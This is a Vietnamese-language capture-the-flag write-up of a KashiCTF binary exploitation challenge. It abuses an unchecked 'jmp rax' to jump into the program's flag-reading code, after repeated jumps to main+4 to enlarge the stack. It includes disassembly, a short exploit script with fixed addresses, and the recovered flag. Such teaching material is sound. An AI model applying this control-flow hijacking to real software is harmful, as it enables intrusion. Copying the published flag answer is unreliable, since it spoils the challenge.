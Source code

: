 >  Thực thi tiếp việc mở và kiểm tra liệu file flag.txt có tồn tại và sau đó tiến hành đọc 100 byte từ file ra và in ra màn hình. Nếu hành động không hợp lệ thì in ra chuỗi "Thất bại trong việc đọc dòng".

### Ý TƯỞNG
Mục tiêu của chúng ta đó là điều khiển chương trình này đọc flag ra màn hình thông qua hàm win. Vì chương trình có sử dụng jmp rax:
```
call    ___isoc99_scanf
mov     rax, [rbp+var_8]
sub     rsp, 10h
jmp     rax
main endp
```
nên ta sẽ tận dụng điều đó để return vào hàm win đồng thời bypass qua các bước kiểm tra điều kiện tham số bằng cách ta cho nhập vào chương trình địa chỉ thích hợp tại hàm win.

### KHAI THÁC
- Kiểm tra các phương thức bảo mật của chương trình:
![{E5F78DEC-F5B6-46FA-807A-06CD47144032}](https://hackmd.io/_uploads/ryF5Ubcqyx.png)
> Ta thấy rằng địa chỉ đang tĩnh nên với cách khai thác của chúng ta là hiệu quả và tiện lợi để sử dụng trực tiếp một địa chỉ trong chương trình.
- Vậy việc của chúng ta hiện tại là tìm kiếm địa chỉ thích hợp tại win để nhập vào và ta sẽ trực tiếp lấy địa chỉ tại thao tác mở file flag để đọc của chương trình vì tại đó vừa ngay sau các bước kiểm tra và là thao tác cần thiết để ta lấy được flag:
```
.text:00000000004011BA                 lea     rsi, modes      ; "r"
.text:00000000004011C1                 lea     rdi, filename   ; "/flag.txt"
.text:00000000004011C8                 call    _fopen
.text:00000000004011CD                 mov     [rbp+stream], rax
.text:00000000004011D1                 cmp     [rbp+stream], 0
.text:00000000004011D6                 jnz     short loc_4011EE
.text:00000000004011D8                 lea     rdi, s          ; "Failed to open file"
.text:00000000004011DF                 call    _puts
.text:00000000004011E4                 mov     edi, 1          ; status
.text:00000000004011E9                 call    _exit
```
- Như vậy ta thấy toàn bộ thao tác mở file bắt đầu tại địa chỉ 0x4011BA và ta sẽ cho nhập vào chương trình chính xác địa chỉ đó.
- Ta cho chạy trực tiếp trên server:
![{75A11C32-2F9E-4533-B6AD-38670E3030FC}](https://hackmd.io/_uploads/HJbhuW9cye.png)
- Vậy khi ta cho chương trình nhảy luôn đến địa chỉ thực thi open file thì ta thấy chương trình không trả về cho ta gì cả. Điều này xảy ra do khi ta cho nhảy trực tiếp đến địa chỉ trên thì khi thực hiện đến hàm fgets thì dữ liệu được đọc vào sẽ vô tình ghi đè lên các thông số quan trọng như địa chỉ trả về dẫn đến lỗi (bởi vì tại dữ liệu từ file được đọc lên tại rbp-0x70 nhưng tại main rbp chỉ kịp trừ đi 0x10 byte).
- Để giải quyết việc này thì trước khi ta cho chương trình nhảy vào địa chỉ 0x4011ba thì ta sẽ cho chương trì trừ stack đi một lượng vừa đủ để chứa dữ liệu flag đọc vào:
![{A26D9018-4447-4670-B15D-DE2487B76FDE}](https://hackmd.io/_uploads/Hk007Mqcyg.png)
> Sử dụng GDB ta thấy tại main+4 chương trình thực thi việc trừ stack đi 0x10 byte vậy ta sẽ cho chương trình chạy main+4 vài lần để stack có thêm không gian rồi sau đó mới lấy flag.
- Như vậy ta sẽ có file script để nhập vào chương trình:
```
sub_stack = 0x000000000040125e
win = 0x00000000004011ba
for i in range(7):
    p.sendlineafter(b'to go : ',hex(sub_stack))
p.sendlineafter(b'to go : ',hex(win))
```
- Ta cho chạy thử script với server thì:
![{CFF30CC0-0270-434E-AA30-C9C3A73DE284}](https://hackmd.io/_uploads/BykMPzqq1x.png)
- Vậy ta đã nhận được flag là "KashiCTF{m4r10_15_fun_w17H_C_AxIPrxHo}".